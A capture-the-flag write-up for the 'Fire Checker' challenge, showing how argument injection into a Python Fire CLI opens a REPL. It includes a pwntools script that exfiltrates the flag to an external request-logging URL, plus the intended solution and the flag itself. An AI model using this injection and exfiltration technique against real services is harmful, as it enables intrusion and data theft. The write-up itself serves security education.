 # Fire Checker \[487 Points] (18 Solves)
```
It's so easy to make a secure flag checker, just check it on the server, duh...

Author: ahh
nc 34.139.98.117 6667 
```
---

## Writeup

[main.py](./fire_checker/app/main.py) just executes [chall.py](./fire_checker/app/chall.py)
with the parameters to set the flag and the inputted from us guess.
```py
try:
    out = subprocess.check_output(args, stderr=subprocess.DEVNULL, timeout=5).decode().strip()
    if out == f"Correct! {FLAG} is the flag!":
        print(out)
    else:
        raise Exception("Incorrect")
except:
    print("Nope!")

```
Let's look at `chall.py`
```py
import fire

def check_flag(flag, guess, *args, **kwargs):
    if flag == guess:
        return f"Correct! {guess} is the flag!"
    else:
        return f"Incorrect, you guessed {guess}, but the flag is {flag}."

if __name__ == '__main__':
    fire.Fire(check_flag)
```

It uses a library `fire`, which allows us to turn functions into CLI apps.

Reading it's docs we find out that it supports an **--interactive** flag which will
drop us into a _**python REPL**_. Thankfully, `main.py` doesn't redirect `chall`'s stdin
channel, thus we can just run a python command and exfiltrate the flag.

```py
from pwn import *

url = input("Please enter a url to receive the flag (like the one from https://public.requestbin.com): ")

io = connect("34.139.98.117", 6667)

io.sendlineafter("What is the flag? 🔥".encode(), "a -- --interactive".encode()) # --interactive launches a python REPL
sleep(1) # Make sure the REPL loaded
io.sendline(f"import sys, urllib.request; urllib.request.urlopen(f'{url}/{{sys.argv[2]}}').read(); exit()".encode())
```

**Flag:** L3AK{tR4NSF0RMS_iNBuiL7_1n_CLi5_WHO_KneW?!}

## Intended Solution

Written by @yannik9647
```
test ++ split ++ pop 0x8 ++ split '.' ++ pop 0x0 ++ join ["Correct!\x20","\x20is\x20the\x20flag!"] -- --separator ++
```

Uses `--separator` to execute functions on the output of the function.
So the following will happen:
- The function will return `Incorrect, you guessed test, but the flag is L3AK{tR4NSF0RMS_iNBuiL7_1n_CLi5_WHO_KneW?!}.`
- It is then split on spaces, and the last element is taken (split, pop 0x8) - this gets us `L3AK{tR4NSF0RMS_iNBuiL7_1n_CLi5_WHO_KneW?!}.`
- Repeat again with the dot to remove it - Now we have `L3AK{tR4NSF0RMS_iNBuiL7_1n_CLi5_WHO_KneW?!}.`
- Construct the "*Correct*" string using join - `Correct! L3AK{tR4NSF0RMS_iNBuiL7_1n_CLi5_WHO_KneW?!} is the flag!`
